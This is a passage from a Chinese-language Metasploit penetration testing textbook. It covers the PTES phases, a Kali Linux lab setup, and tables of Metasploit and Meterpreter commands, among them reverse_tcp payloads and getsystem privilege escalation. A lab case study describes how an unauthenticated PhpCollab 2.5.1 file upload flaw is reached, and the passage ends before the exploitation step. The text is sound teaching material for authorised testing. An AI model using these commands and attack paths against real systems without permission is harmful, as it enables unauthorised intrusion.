# 第十一章：使用 Metasploit 进行渗透测试

**渗透测试**是对基于计算机的系统的有意攻击，其目的是发现漏洞、安全弱点，并验证系统是否安全。渗透测试将向组织提供建议，告知其安全状况是否容易受到攻击，已实施的安全是否足以抵御任何入侵，可以绕过哪些安全控制等等。因此，渗透测试侧重于改善组织的安全状况。

成功进行渗透测试在很大程度上取决于使用正确的工具和技术。渗透测试人员必须选择正确的工具和方法来完成测试。在谈论渗透测试的最佳工具时，首先想到的是 Metasploit。它被认为是今天进行渗透测试的最有效的审计工具之一。Metasploit 提供了各种各样的利用、优秀的利用开发环境、信息收集和 Web 测试能力等等。

在从基础到精英级别介绍 Metasploit 的过程中，我们将坚持逐步方法，如下图所示：



本章将帮助您回顾渗透测试和 Metasploit 的基础知识，这将帮助您适应本书的节奏。

在本章中，您将学习以下主题：

+   渗透测试的各个阶段

+   Metasploit 框架的基础知识

+   Metasploit 利用和扫描模块的工作原理

+   使用 Metasploit 测试目标网络

+   使用数据库的好处

+   转向并深入内部网络

这里需要注意的一个重要点是，我们可能不会在一天内成为专业的渗透测试人员。这需要实践，熟悉工作环境，能够在关键情况下表现，最重要的是，了解我们如何在渗透测试的各个阶段之间循环。

当我们考虑在组织上进行渗透测试时，我们需要确保一切都设置正确，并符合渗透测试标准。因此，如果您觉得对渗透测试标准或术语**渗透测试执行标准**（**PTES**）不熟悉，请参考[`www.pentest-standard.org/index.php/PTES_Technical_Guidelines`](http://www.pentest-standard.org/index.php/PTES_Technical_Guidelines)以更熟悉渗透测试和漏洞评估。根据 PTES，以下图解释了渗透测试的各个阶段：

请参考渗透测试标准网站，[`www.pentest-standard.org/index.php/Main_Page`](http://www.pentest-standard.org/index.php/Main_Page) [设置硬件和系统化阶段，以便在设置工作环境时遵循。](http://www.pentest-standard.org/index.php/Main_Page)

# 组织渗透测试

在我们开始使用 Metasploit 进行复杂和复杂的攻击之前，让我们了解渗透测试的各个阶段，并看看如何在专业范围内组织渗透测试。

# 预交互

渗透测试的第一个阶段，预交互，涉及讨论关于在客户的组织、公司、学院或网络上进行渗透测试的关键因素，与客户本身进行讨论。这个阶段作为渗透测试人员、客户和他/她的需求之间的联系线。预交互帮助客户充分了解在他或她的网络/域或服务器上要执行的工作。

因此，测试人员将在这里充当客户的教育者。渗透测试人员还讨论测试范围，收集项目范围内所有领域的知识，以及在进行分析时可能需要的任何特殊要求。这些要求包括特殊权限，访问关键系统，网络或系统凭据等。项目的预期积极方面也应该在这个阶段与客户讨论。作为一个过程，预交互讨论以下一些关键点：

+   **范围**：本节审查项目的范围并估计项目的规模。范围还定义了测试的包含和排除内容。测试人员还讨论了范围内的 IP 范围和域以及测试类型（黑盒或白盒）。在白盒测试的情况下，测试人员还讨论了访问的种类和所需的凭据；测试人员还为管理员创建、收集和维护问卷。测试的时间表和持续时间，是否包括压力测试或不包括，以及付款都包括在范围内。一份一般的范围文件提供了以下问题的答案：

+   目标组织最重要的安全关注点是什么？

+   哪些特定主机、网络地址范围或应用程序应该被测试？

+   哪些特定主机、网络地址范围或应用程序明确不应该被测试？

+   是否有任何第三方拥有在范围内的系统或网络，并且他们持有哪些系统（目标组织必须事先获得书面许可）？

+   测试将在实时生产环境还是测试环境中进行？

+   渗透测试是否包括以下测试技术：网络范围的 ping 扫描、目标主机的端口扫描、目标的漏洞扫描、目标的渗透、应用程序级别的操纵、客户端 Java/ActiveX 反向工程、物理渗透尝试、社会工程？

+   渗透测试是否包括内部网络测试？如果是，如何获得访问权限？

+   客户/最终用户系统是否包含在范围内？如果是，将利用多少客户端？

+   是否允许社会工程？如果是，可能如何使用？

+   是否允许拒绝服务攻击？

+   是否允许危险检查/利用？

+   **目标**：本节讨论渗透测试设定的各种主要和次要目标。与目标相关的常见问题如下：

+   这次渗透测试的业务需求是什么？

+   测试是否是由监管审计要求的，还是只是标准程序？

+   目标是什么？

+   绘制漏洞地图

+   证明漏洞存在

+   测试事件响应

+   在网络、系统或应用程序中实际利用漏洞

+   以上所有内容

+   **测试术语和定义**：这个阶段讨论基本术语与客户，并帮助客户更好地理解这些术语

+   **规则约定**：本节定义测试时间、时间表、攻击权限和定期会议更新正在进行的测试的状态。与规则约定相关的常见问题如下：

+   您希望在什么时间进行这些测试？

+   在工作时间内

+   工作时间之后

+   周末时间

+   在系统维护窗口期间

+   这个测试将在生产环境中进行吗？

+   如果不应影响生产环境，是否存在可以用于进行渗透测试的类似环境（开发或测试系统）？

+   谁是技术联系人？

有关预交互的更多信息，请参阅：[`www.pentest-standard.org/index.php/File:Pre-engagement.png`](http://www.pentest-standard.org/index.php/File:Pre-engagement.png)。

# 情报收集/侦察阶段

在情报收集阶段，您需要尽可能收集有关目标网络的信息。目标网络可能是一个网站、一个组织，或者可能是一个成熟的财富公司。最重要的是从社交媒体网络中收集有关目标的信息，并使用 Google Hacking（一种使用特定查询从 Google 中提取敏感信息的方法）来查找与待测试组织相关的机密和敏感信息。使用主动和被动攻击对组织进行足迹定位也是一种方法。

情报收集阶段是渗透测试中最关键的方面之一。对目标正确获得的知识将帮助测试人员模拟适当和准确的攻击，而不是尝试所有可能的攻击机制；它还将帮助测试人员节省相当多的时间。这个阶段将消耗测试总时间的 40%到 60%，因为获取对目标的访问主要取决于系统的足迹有多好。

渗透测试人员必须通过进行各种扫描来获取关于目标的充分了解，寻找开放端口、服务识别，并选择哪些服务可能存在漏洞以及如何利用它们进入所需的系统。

在这个阶段遵循的程序需要确定目标基础设施上当前部署的安全策略和机制，以及它们可以被规避到什么程度。

让我们用一个例子来讨论这个问题。考虑对一个客户要求进行网络压力测试的 Web 服务器进行黑盒测试。

在这里，我们将测试服务器，以检查服务器能够承受多少带宽和资源压力，或者简单来说，服务器如何响应**拒绝服务**（**DoS**）攻击。DoS 攻击或压力测试是指向服务器发送无限请求或数据的过程，以检查服务器是否能够成功处理和响应所有请求，或者导致 DoS 崩溃。如果目标服务容易受到特制请求或数据包的攻击，也可能发生 DoS。为了实现这一点，我们启动我们的网络压力测试工具，并向目标网站发起攻击。然而，启动攻击几秒钟后，我们发现服务器没有响应我们的浏览器，网站也无法打开。此外，一个页面显示网站目前处于离线状态。那么这意味着什么？我们成功地关闭了我们想要的网络服务器吗？没有！实际上，这是服务器管理员设置的一种保护机制的迹象，它察觉到我们恶意意图关闭服务器，因此导致我们的 IP 地址被禁止。因此，在发动攻击之前，我们必须收集正确的信息并确定目标处的各种安全服务。

更好的方法是从不同的 IP 范围测试 Web 服务器。也许保留两到三个不同的虚拟专用服务器进行测试是正确的方法。此外，我建议您在将这些攻击向真实目标发动之前，在虚拟环境中测试所有攻击向量。攻击向量的正确验证是强制性的，因为如果我们在攻击之前不验证攻击向量，可能会导致目标服务崩溃，这是不可取的。网络压力测试应该在参与或维护窗口的最后阶段进行。此外，向客户要求将用于测试的 IP 地址列入白名单始终是有帮助的。

现在，让我们看第二个例子。考虑对 Windows 2012 服务器进行黑盒测试。在扫描目标服务器时，我们发现端口`80`和端口`8080`是开放的。在端口`80`上，我们看到运行着最新版本的**Internet Information Services** (**IIS**)，而在端口`8080`上，我们发现运行着易受**远程代码执行**漏洞影响的**Rejetto HFS Server**的脆弱版本。

然而，当我们尝试利用这个易受攻击的 HFS 版本时，攻击失败了。这种情况是防火墙阻止恶意入站流量的典型场景。

在这种情况下，我们可以简单地改变我们连接回服务器的方式，这将建立从目标回到我们系统的连接，而不是我们直接连接到服务器。这种改变可能会更成功，因为防火墙通常被配置为检查入站流量而不是出站流量。

作为一个过程，这个阶段可以分解为以下关键点：

+   **目标选择**: 选择要攻击的目标，确定攻击的目标和攻击的时间。

+   **隐蔽收集**: 这涉及从物理场所、使用的设备和垃圾箱中收集数据。这个阶段只是定位白盒测试的一部分。

+   **足迹**: 足迹包括主动或被动扫描，以识别目标上部署的各种技术和软件，包括端口扫描、横幅抓取等。

+   **识别保护机制**：这涉及识别防火墙、过滤系统、基于网络和主机的保护等。

有关情报收集的更多信息，请参阅：[`www.pentest-standard.org/index.php/Intelligence_Gathering`](http://www.pentest-standard.org/index.php/Intelligence_Gathering)。

# 威胁建模

威胁建模有助于进行全面的渗透测试。这个阶段侧重于对真实威胁的建模，它们的影响以及基于它们可能造成的影响进行分类。根据情报收集阶段的分析，我们可以建模出最佳的攻击向量。威胁建模适用于业务资产分析、流程分析、威胁分析和威胁能力分析。这个阶段回答以下一系列问题：

+   我们如何攻击特定网络？

+   我们需要获得对哪些关键部分的访问权限？

+   哪种方法最适合攻击？

+   最高评级的威胁是什么？

建模威胁将帮助渗透测试人员执行以下一系列操作：

+   收集关于高级威胁的相关文档

+   根据分类基础确定组织的资产

+   识别和分类风险

+   将威胁映射到公司的资产

建模威胁将有助于定义具有风险的最高优先级资产。

考虑对公司网站进行黑盒测试。在这里，关于公司客户的信息是主要资产。在同一后端的不同数据库中，也可能存储了交易记录。在这种情况下，攻击者可以利用 SQL 注入的威胁跨越到交易记录数据库。因此，交易记录是次要资产。通过了解影响，我们可以将 SQL 注入攻击的风险映射到资产上。

漏洞扫描器如**Nexpose**和 Metasploit 的专业版可以通过自动化方法精确快速地建模威胁。因此，在进行广泛测试时，它可能会很有用。

有关威胁建模阶段涉及的流程的更多信息，请参阅：[`www.pentest-standard.org/index.php/Threat_Modeling`](http://www.pentest-standard.org/index.php/Threat_Modeling)。

# 漏洞分析

漏洞分析是发现系统或应用程序中缺陷的过程。这些缺陷可以从服务器到 Web 应用程序，从不安全的应用程序设计到易受攻击的数据库服务，从基于 VOIP 的服务器到基于 SCADA 的服务。这个阶段包含三种不同的机制，即测试、验证和研究。测试包括主动和被动测试。验证包括删除错误的阳性结果，并通过手动验证确认漏洞的存在。研究是指验证发现的漏洞并触发它以证明其存在。

有关威胁建模阶段涉及的过程的更多信息，请参阅：[`www.pentest-standard.org/index.php/Vulnerability_Analysis`](http://www.pentest-standard.org/index.php/Vulnerability_Analysis)。

# 利用和后渗透

利用阶段涉及利用先前发现的漏洞。这个阶段是实际的攻击阶段。在这个阶段，渗透测试人员在系统的目标漏洞上启动利用程序以获取访问权限。这个阶段在整本书中都有详细介绍。

后渗透阶段是利用的后阶段。这个阶段涵盖了我们可以在被利用的系统上执行的各种任务，如提升权限、上传/下载文件、枢纽等。

有关利用阶段涉及的过程的更多信息，请参阅：[`www.pentest-standard.org/index.php/Exploitation`](http://www.pentest-standard.org/index.php/Exploitation)。

有关后渗透的更多信息，请参阅[`www.pentest-standard.org/index.php/Post_Exploitation`](http://www.pentest-standard.org/index.php/Post_Exploitation)。

# 报告

在进行渗透测试时，创建整个渗透测试的正式报告是最后一个阶段。识别关键漏洞、创建图表和图形、建议和提出修复措施是渗透测试报告的重要部分。整本书的后半部分都专门讨论了报告。

有关威胁建模阶段涉及的过程的更多信息，请参阅：[`www.pentest-standard.org/index.php/Reporting`](http://www.pentest-standard.org/index.php/Reporting)。

# 搭建环境

成功的渗透测试在很大程度上取决于您的工作环境和实验室的配置。此外，成功的测试回答以下一系列问题：

+   你的测试实验室配置得如何？

+   所有测试所需的工具都齐全吗？

+   你的硬件支持这些工具有多好？

在我们开始测试任何东西之前，我们必须确保所有所需的工具集都可用并已更新。

# 在虚拟环境中设置 Kali Linux

在使用 Metasploit 之前，我们需要有一个测试实验室。建立测试实验室的最佳方法是收集不同的机器并在它们上安装不同的操作系统。然而，如果我们只有一个设备，最好的方法是建立一个虚拟环境。

虚拟化在今天的渗透测试中扮演着重要的角色。由于硬件成本高昂，虚拟化在渗透测试中起到了节约成本的作用。在主机操作系统下模拟不同的操作系统不仅可以节省金钱，还可以节省电力和空间。然而，建立一个虚拟渗透测试实验室可以防止对实际主机系统的任何修改，并允许我们在隔离的环境中执行操作。虚拟网络使网络利用在隔离的网络中运行，从而防止对主机系统的任何修改或使用网络硬件。

此外，虚拟化的快照功能有助于在特定时间点保留虚拟机的状态。这个功能非常有帮助，因为我们可以在测试虚拟环境时比较或重新加载操作系统的先前状态，而无需在攻击模拟后修改文件的情况下重新安装整个软件。

虚拟化期望主机系统具有足够的硬件资源，如 RAM、处理能力、驱动器空间等，以便顺利运行。

有关快照的更多信息，请参阅：[`www.virtualbox.org/manual/ch01.html#snapshots`](https://www.virtualbox.org/manual/ch01.html#snapshots)。

因此，让我们看看如何使用 Kali 操作系统创建虚拟环境（这是渗透测试中最受欢迎的操作系统，其中默认包含 Metasploit 框架）。

您可以随时在此处下载 Kali Linux 的预构建 VMware 和 VirtualBox 映像：[`www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/`](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-hyperv-image-download/)。

要创建虚拟环境，我们需要虚拟机软件。我们可以使用两种最流行的虚拟机软件之一：VirtualBox 和 VMware Workstation Player。因此，让我们通过执行以下步骤开始安装：

1.  下载 VMware Workstation Player（[`my.vmware.com/web/vmware/free#desktop_end_user_computing/vmware_workstation_player/14_0`](https://my.vmware.com/web/vmware/free#desktop_end_user_computing/vmware_workstation_player/14_0)）并为您的机器架构设置它。

1.  运行设置并完成安装。

1.  下载最新的 Kali VM 映像（[`images.offensive-security.com/virtual-images/kali-linux-2017.3-vm-amd64.ova`](https://images.offensive-security.com/virtual-images/kali-linux-2017.3-vm-amd64.ova)）

1.  运行 VM Player 程序，如下截图所示：



1.  接下来，转到“Player”选项卡，然后选择“文件”|“打开”。

1.  浏览到提取的 Kali Linux 的`*.ova`文件并单击“打开”。我们将看到以下屏幕：

1.  选择任何名称并选择存储路径（我更喜欢在具有最大可用空间的驱动器上创建一个单独的文件夹），然后单击“导入”。

1.  导入可能需要一些时间。请耐心等待，同时听听您喜欢的音乐。

1.  成功导入后，我们可以在虚拟机列表中看到新添加的虚拟机，如下截图所示：



1.  接下来，我们只需要启动操作系统。好消息是，预安装的 Kali Linux 的 VMware 映像随附有 VMware Tools，这使得诸如拖放、挂载共享文件夹等功能可以随时使用。

1.  Kali Linux 的默认凭据是`root`:`toor`，其中`root`是用户名，`toor`是密码。

1.  让我们快速打开一个终端并初始化和启动 Metasploit 数据库，如下截图所示：

1.  通过发出`msfconsole`命令来开始 Metasploit 框架，如下截图所示：



有关 Kali Linux 的完整持久安装指南，请参阅：[`docs.kali.org/category/installation`](https://docs.kali.org/category/installation)。

要在 Linux 中通过命令行安装 Metasploit，请参阅：[`www.darkoperator.com/installing-metasploit-in-ubunt/`](https://www.darkoperator.com/installing-metasploit-in-ubunt/)。

要在 Windows 上安装 Metasploit，请参考这里的优秀指南：[`www.packtpub.com/mapt/book/networking_and_servers/9781788295970/2/ch02lvl1sec20/installing-metasploit-on-windows`](https://www.packtpub.com/mapt/book/networking_and_servers/9781788295970/2/ch02lvl1sec20/installing-metasploit-on-windows)。

# Metasploit 的基础知识

自从我们回顾了渗透测试的基本阶段并完成了 Kali Linux 的设置，让我们谈谈大局；也就是 Metasploit。Metasploit 是一个安全项目，提供了漏洞利用和大量的侦察功能，以帮助渗透测试人员。Metasploit 是由 H.D. Moore 于 2003 年创建的，自那时以来，其快速发展使其被认为是最受欢迎的渗透测试工具之一。Metasploit 完全是一个由 Ruby 驱动的项目，提供了许多漏洞利用、有效载荷、编码技术和大量的后渗透功能。

Metasploit 有各种版本，如下：

+   Metasploit Pro：这个版本是商业版，提供了大量出色的功能，如 Web 应用程序扫描、利用、自动利用，非常适合专业的渗透测试人员和 IT 安全团队。Pro 版主要用于专业、高级和大型渗透测试以及企业安全项目。

+   Metasploit Express：express 版本用于基线渗透测试。这个版本的 Metasploit 包括智能利用、自动暴力破解凭据等功能。这个版本非常适合中小型公司的 IT 安全团队。

+   Metasploit 社区：这是一个免费版本，功能较 express 版本有所减少。然而，对于学生和小型企业来说，这个版本是一个有利的选择。

+   Metasploit 框架：这是一个命令行版本，包括所有手动任务，如手动利用、第三方导入等。这个版本适合开发人员和安全研究人员。

在本书中，我们将使用 Metasploit 社区和框架版本。Metasploit 还提供各种类型的用户界面，如下：

+   图形用户界面：GUI 具有所有选项，只需点击按钮即可使用。该界面提供了用户友好的界面，有助于提供更清洁的漏洞管理。

+   控制台界面：这是首选界面，也是最受欢迎的界面。这个界面提供了 Metasploit 提供的所有选项的一体化方法。这个界面也被认为是最稳定的界面。在本书中，我们将最常使用控制台界面。

+   命令行界面：命令行界面是最强大的界面。它支持启动利用活动，如有效载荷生成。然而，在使用命令行界面时记住每个命令是一项困难的工作。

+   Armitage：Raphael Mudge 的 Armitage 为 Metasploit 添加了一个酷炫的黑客风格的 GUI 界面。Armitage 提供了易于管理的漏洞管理、内置 NMAP 扫描、利用建议以及使用 Cortana 脚本语言自动化功能的能力。本书的后半部分专门介绍了 Armitage 和 Cortana。

有关 Metasploit 社区的更多信息，请参阅：[`blog.rapid7.com/2011/12/21/metasploit-tutorial-an-introduction-to-metasploit-community/`](https://blog.rapid7.com/2011/12/21/metasploit-tutorial-an-introduction-to-metasploit-community/)。

# 使用 Metasploit 进行渗透测试

在设置好 Kali Linux 之后，我们现在准备使用 Metasploit 进行第一次渗透测试。然而，在开始测试之前，让我们回顾一些 Metasploit 框架中使用的基本功能和术语。

# 回顾 Metasploit 的基础知识

在运行 Metasploit 之后，我们可以在 Metasploit 控制台中键入 help 或?来列出框架中所有可用的有用命令。让我们回顾一下 Metasploit 中使用的基本术语，如下所示：

+   **利用**: 这是一段代码，当执行时，将利用目标的漏洞。

+   **有效载荷**: 这是在成功利用后在目标上运行的代码。它定义了我们想要在目标系统上执行的操作。

+   **辅助**: 这些是提供额外功能的模块，如扫描、模糊测试、嗅探等。

+   **编码器**: 编码器用于混淆模块，以避免被防病毒软件或防火墙等保护机制检测到。

+   **Meterpreter**: Meterpreter 是一种使用内存 DLL 注入分段器的有效载荷。它提供了各种功能，可在目标上执行，这使其成为一个受欢迎的选择。

现在，让我们回顾一些我们将在本章中使用的 Metasploit 的基本命令。让我们看看它们应该做什么：

| **命令** | **用法** | **示例** |
| --- | --- | --- |
| `use [Auxiliary/Exploit/Payload/Encoder]` | 选择要开始使用的特定模块 | `msf>use exploit/unix/ftp/vsftpd_234_backdoor msf>use auxiliary/scanner/portscan/tcp` |
| `show [exploits/payloads/encoder/auxiliary/options]` | 查看特定类型的可用模块列表 | `msf>show payloads msf> show options` |
| `set [options/payload]` | 为特定对象设置值 | `msf>set payload windows/meterpreter/reverse_tcp msf>set LHOST 192.168.10.118 msf> set RHOST 192.168.10.112 msf> set LPORT 4444 msf> set RPORT 8080` |
| `setg [options/payload]` | 全局设置特定对象的值，因此在模块切换时值不会改变 | `msf>setg RHOST 192.168.10.112` |
| `run` | 在设置所有必需的选项后启动辅助模块 | `msf>run` |
| `exploit` | 启动一个利用 | `msf>exploit` |
| `back` | 取消选择模块并返回 | `msf(ms08_067_netapi)>back msf>` |
| `Info` | 列出与特定漏洞/模块/辅助相关的信息 | `msf>info exploit/windows/smb/ms08_067_netapi msf(ms08_067_netapi)>info` |
| `Search` | 查找特定模块 | `msf>search hfs` |
| `check` | 检查特定目标是否容易受到攻击 | `msf>check` |
| `Sessions` | 列出可用的会话 | `msf>sessions [session number]` |

让我们来看看基本的 Meterpreter 命令：

| **Meterpreter 命令** | **用法** | **示例** |
| --- | --- | --- |
| `sysinfo` | 列出受损主机的系统信息 | `meterpreter>sysinfo` |
| `ifconfig` | 列出受损主机上的网络接口 | `meterpreter>ifconfig meterpreter>ipconfig (Windows)` |
| `arp` | 列出连接到目标的主机的 IP 和 MAC 地址 | `meterpreter>arp` |
| `background` | 将活动会话发送到后台 | `meterpreter>background` |
| `shell` | 在目标上放置一个 cmd shell | `meterpreter>shell` |
| `getuid` | 获取当前用户的详细信息 | `meterpreter>getuid` |
| `getsystem` | 提升权限并获得 SYSTEM 访问权限 | `meterpreter>getsystem` |
| `getpid` | 获取 meterpreter 访问的进程 ID | `meterpreter>getpid` |
| `ps` | 列出目标上运行的所有进程 | `meterpreter>ps` |

既然我们现在回顾了 Metasploit 命令的基础知识，让我们在下一节看看使用 Metasploit 相对于传统工具和脚本的好处。

如果您是第一次使用 Metasploit，请参考[`www.offensive-security.com/metasploit-unleashed/msfconsole-commands/`](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/)获取有关基本命令的更多信息。

# 使用 Metasploit 进行渗透测试的好处

在我们深入研究一个未知网络之前，我们必须知道为什么我们更喜欢 Metasploit 而不是手动利用技术。这是因为它给人一种黑客般的终端外观，还是有其他原因？与传统的手动技术相比，Metasploit 是一个更可取的选择，因为它具有以下几个方面的特点。

# 开源

选择 Metasploit 框架的首要原因之一是因为它是开源的，并且在积极开发中。还有其他一些高薪工具用于进行渗透测试。然而，Metasploit 允许用户访问其源代码并添加自定义模块。Metasploit 的专业版是收费的，但出于学习的目的，大多数人更喜欢社区版。

# 支持测试大型网络和自然的命名约定

使用 Metasploit 很容易。然而，在这里，易用性指的是命令的自然命名约定。Metasploit 在进行大规模网络渗透测试时提供了极大的便利。考虑一个情景，我们需要测试一个拥有 200 台系统的网络。与其逐个检查每个系统，不如使用 Metasploit 自动检查整个范围。使用子网和 CIDR 值等参数，Metasploit 测试所有系统以利用漏洞，而使用手动技术，我们可能需要手动对 200 台系统启动 exploit。因此，Metasploit 节省了大量的时间和精力。

# 智能负载生成和切换机制

最重要的是，在 Metasploit 中切换负载很容易。Metasploit 提供了使用 `set payload` 命令快速更改负载的途径。因此，将 Meterpreter 或基于 shell 的访问转换为更具体的操作，比如添加用户和获取远程桌面访问，变得容易。通过使用命令行中的 `msfvenom` 应用程序，生成用于手动利用的 shellcode 也变得容易。

# 更干净的退出

Metasploit 也负责从其 compromise 的系统中更干净地退出。另一方面，自定义编码的 exploit 在退出操作时可能会导致系统崩溃。在我们知道服务不会立即重新启动的情况下，干净地退出确实是一个重要因素。

考虑一个情景，我们已经 compromise 了一个 web 服务器，当我们准备离开时，被攻击的应用程序崩溃了。服务器的预定维护时间还剩下 50 天。那么，我们该怎么办？难道要等待接下来的 50 天，等服务再次上线，这样我们才能再次利用它吗？而且，如果服务在被修补后再次上线呢？我们可能会后悔莫及。这也显示了测试技能不足的明显迹象。因此，更好的方法是使用 Metasploit 框架，它以更干净的方式退出，并提供大量的后渗透功能，比如持久性，可以帮助保持对服务器的永久访问。

# GUI 环境

Metasploit 提供友好的 GUI 和第三方接口，比如 Armitage。这些接口通过提供易于切换的工作空间、即时漏洞管理和一键功能来简化渗透测试项目。我们将在本书的后面章节更多地讨论这些环境。

# 案例研究 - 深入研究未知网络

回顾 Metasploit 的基础知识，我们已经准备好使用 Metasploit 进行第一次渗透测试。考虑一个现场场景，我们被要求测试一个 IP 地址并检查它是否容易受到攻击。这次测试的唯一目的是确保所有适当的检查是否已经就位。情景非常简单。我们假设所有的前期交互都已经与客户完成，并且实际的测试阶段即将开始。

如果您想在阅读案例研究的同时进行实际操作，请参考*重新访问案例研究*部分，因为这将帮助您模拟具有精确配置和网络详细信息的整个案例研究。

# 情报收集

正如前面讨论的，情报收集阶段围绕着尽可能收集有关目标的信息。这包括进行主动和被动扫描，其中包括端口扫描、横幅抓取和各种其他扫描。当前情景下的目标是一个单个 IP 地址，所以在这里，我们可以跳过收集被动信息，只能继续使用主动信息收集方法。

让我们从足迹识别阶段开始，其中包括端口扫描、横幅抓取、ping 扫描以检查系统是否存活以及服务检测扫描。

进行足迹识别和扫描时，Nmap 被证明是可用的最好工具之一。Nmap 生成的报告可以轻松导入 Metasploit。然而，Metasploit 具有内置的 Nmap 功能，可以用于从 Metasploit 框架控制台执行 Nmap 扫描并将结果存储在数据库中。

有关 Nmap 扫描的更多信息，请参考[`nmap.org/bennieston-tutorial/`](https://nmap.org/bennieston-tutorial/)。

请参考一本关于 Nmap 的优秀书籍：[`www.packtpub.com/networking-and-servers/nmap-6-network-exploration-and-security-auditing-cookbook`](https://www.packtpub.com/networking-and-servers/nmap-6-network-exploration-and-security-auditing-cookbook)。

# 在 Metasploit 中使用数据库

在进行渗透测试时，自动存储结果总是更好的方法。使用数据库将帮助我们建立主机、服务和渗透测试范围内的漏洞的知识库。为了实现这个功能，我们可以在 Metasploit 中使用数据库。将数据库连接到 Metasploit 还可以加快搜索速度并提高响应时间。下面的截图显示了当数据库未连接时的搜索：

我们在安装阶段看到了如何初始化 Metasploit 数据库并启动它。要检查 Metasploit 当前是否连接到数据库，我们只需输入`db_status`命令，如下面的截图所示：

可能会出现我们想要连接到一个单独的数据库而不是默认的 Metasploit 数据库的情况。在这种情况下，我们可以使用`db_connect`命令，如下面的截图所示：

要连接到数据库，我们需要提供用户名、密码和端口以及`db_connect`命令的数据库名称。

让我们看看其他核心数据库命令应该做什么。下表将帮助我们理解这些数据库命令：

| **命令** | **用法信息** |
| --- | --- |
| `db_connect` | 该命令用于与默认数据库以外的其他数据库进行交互 |
| `db_export` | 该命令用于导出数据库中存储的整套数据，以便创建报告或作为另一个工具的输入 |
| `db_nmap` | 该命令用于使用 Nmap 扫描目标，并将结果存储在 Metasploit 数据库中 |
| `db_status` | 该命令用于检查数据库连接是否存在 |
| `db_disconnect` | 该命令用于断开与特定数据库的连接 |
| `db_import` | 该命令用于从 Nessus、Nmap 等其他工具导入结果 |
| `db_rebuild_cache` | 该命令用于重新构建缓存，如果先前的缓存损坏或存储有旧的结果 |

开始新的渗透测试时，最好将先前扫描的主机及其相应的数据与新的渗透测试分开，以免混在一起。在开始新的渗透测试之前，我们可以在 Metasploit 中使用`workspace`命令来做到这一点，如下面的屏幕截图所示：

要添加一个新的工作空间，我们可以使用`workspace -a`命令，后面跟着一个标识符。我们应该将标识符保持为当前正在评估的组织的名称，如下面的屏幕截图所示：



我们可以看到，我们已经成功使用`-a`开关创建了一个新的工作空间。让我们通过简单地发出`workspace`命令，后面跟着工作空间名称，来切换工作空间，如前面的屏幕截图所示。有了工作空间，让我们快速对目标 IP 进行 Nmap 扫描，看看是否有一些有趣的服务在运行：

扫描结果让人心碎。除了端口`80`上没有运行任何服务外，目标上没有运行任何服务。

默认情况下，Nmap 只扫描前 1000 个端口。我们可以使用`-p-`开关扫描所有的 65535 个端口。

由于我们连接到了 Metasploit 数据库，我们检查的所有内容都会被记录到数据库中。发出`services`命令将从数据库中填充所有扫描到的服务。此外，让我们通过`db_nmap`使用`-sV`开关执行版本检测扫描，如下面的屏幕截图所示：

先前的 Nmap 扫描发现了端口`80`并将其记录在数据库中。然而，版本检测扫描发现了在端口`80`上运行的服务，即 Apache 2.4.7 Web 服务器，找到了 MAC 地址、操作系统类型，并更新了数据库中的条目，如前面的屏幕截图所示。由于获取访问权限需要明确针对软件特定版本的精确利用，因此始终要对版本信息进行双重检查。Metasploit 包含一个用于 HTTP 版本指纹识别的内置辅助模块。让我们使用它，如下面的屏幕截图所示：

要启动`http_version`扫描器模块，我们发出`use`命令，后面跟着模块的路径，即`auxiliary/scanner/http/http_version`。所有基于扫描的模块都有`RHOSTS`选项，用于包含广泛的 IP 地址和子网。然而，由于我们只测试单个 IP 目标，我们使用`set`命令将`RHOSTS`指定为目标 IP 地址，即`192.168.174.132`。接下来，我们只需使用`run`命令执行模块，如下面的屏幕截图所示：

这个版本的 Apache 正是我们在先前的 Nmap 扫描中发现的版本。运行在目标上的这个版本的 Apache Web 服务器是安全的，在`exploit-db.com`和`0day.today`等利用数据库中都没有公开的利用。因此，我们别无选择，只能寻找 Web 应用程序中的漏洞，如果有的话。让我们尝试浏览这个 IP 地址，看看我们能否找到一些东西：



好吧！我们有一个索引页面，但没有内容。让我们尝试使用 Metasploit 的`dir_scanner`模块来查找一些已知目录，如下面的屏幕截图所示：

加载`auxiliary/scanner/http/dir_scanner`模块后，让我们通过设置`DICTIONARY`参数中的路径来提供包含已知目录列表的字典文件。此外，我们可以通过将`THREADS`参数从`1`增加到`20`来加快进程。让我们运行模块并分析输出：



在单个目录条目之间的空格字符产生了很多误报。然而，我们从`phpcollab`目录得到了 302 响应代码，这表明在尝试访问`phpcollab`目录时，模块收到了重定向响应（302）。响应很有趣；让我们看看当我们尝试从浏览器打开`phpcollab`目录时会得到什么：

很好！我们有一个基于 PHP 的应用程序正在运行。因此，我们在 Metasploit 模块中得到了 302 响应。

# 威胁建模

从情报收集阶段，我们可以看到目标系统上只有端口`80`是开放的，并且运行在上面的应用程序不容易受到攻击，正在运行 PhpCollab Web 应用程序。尝试一些随机密码和用户名来访问 PhpCollab 门户没有成功。即使搜索 Metasploit，我们也没有 PhpCollab 的模块：

让我们尝试使用`searchsploit`工具从[`exploit-db.com/`](https://exploit-db.com/)搜索 PhpCollab。searchsploit 允许您轻松搜索托管在 exploit 数据库网站上的所有漏洞，因为它维护了所有漏洞的离线副本：

哇！我们有一个 PhpCollab 的漏洞利用，好消息是它已经在 Metasploit 漏洞利用格式中。

# 漏洞分析 - 任意文件上传（未经身份验证）

PhpCollab 应用程序没有正确过滤上传文件的内容。因此，未经身份验证的攻击者可以上传恶意文件并运行任意代码。

# 对 PhpCollab 2.5.1 应用程序的攻击机制

如果攻击者通过在`/clients/editclient.php?id=1&action=update` URL 上发送`POST`请求上传恶意的 PHP 文件，应用程序可能会受到威胁。代码没有验证请求是否来自经过身份验证的用户。有问题的代码如下：

从第 2 行，我们可以看到上传的文件以`$id`后跟`$extention`的形式保存在`logos_clients`目录中，这意味着由于我们在 URL 中有`id=1`，上传的后门将保存为`1.php`在`logos_clients`目录中。

有关此漏洞的更多信息，请参阅：[`sysdream.com/news/lab/2017-09-29-cve-2017-6090-phpcollab-2-5-1-arbitrary-file-upload-unauthenticated/`](https://sysdream.com/news/lab/2017-09-29-cve-2017-6090-phpcollab-2-5-1-arbitrary-file-upload-unauthenticated/)。

# 利用和获取访问权限

